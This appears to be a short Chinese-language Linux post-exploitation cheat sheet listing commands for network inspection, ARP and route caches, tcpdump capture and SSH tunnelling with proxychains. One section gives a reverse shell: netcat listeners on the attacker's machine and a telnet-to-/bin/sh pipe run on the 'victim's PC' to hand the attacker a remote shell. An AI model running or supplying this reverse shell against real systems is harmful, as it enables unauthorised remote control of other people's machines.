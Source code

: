 与哪些主机在通讯？

```
lsof -i

lsof -i :80

grep 80 /etc/services

netstat -antup

netstat -antpx

netstat -tulpn

chkconfig --list

chkconfig --list | grep 3:on

last

w
```

有哪些关于 IP 和 MAC 地址的缓存？

```
arp -e

route

/sbin/route -nee
```

如何抓取流量？怎么看？

```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

如何得到一个 shell 连接？你可以与系统交互吗？

```
nc -lvp 4444 # 在攻击者的 PC 上执行

nc -lvp 4445 # 在受害者的 PC 上执行

telnet [atackers ip] 4444 | /bin/sh | telnet [local ip] 4445 # 在受害者的 PC 上执行
```

如何使用隧道执行命令？

```
ssh -D 127.0.0.1:9050 -N [username]@[ip]

proxychains ifconfig
```
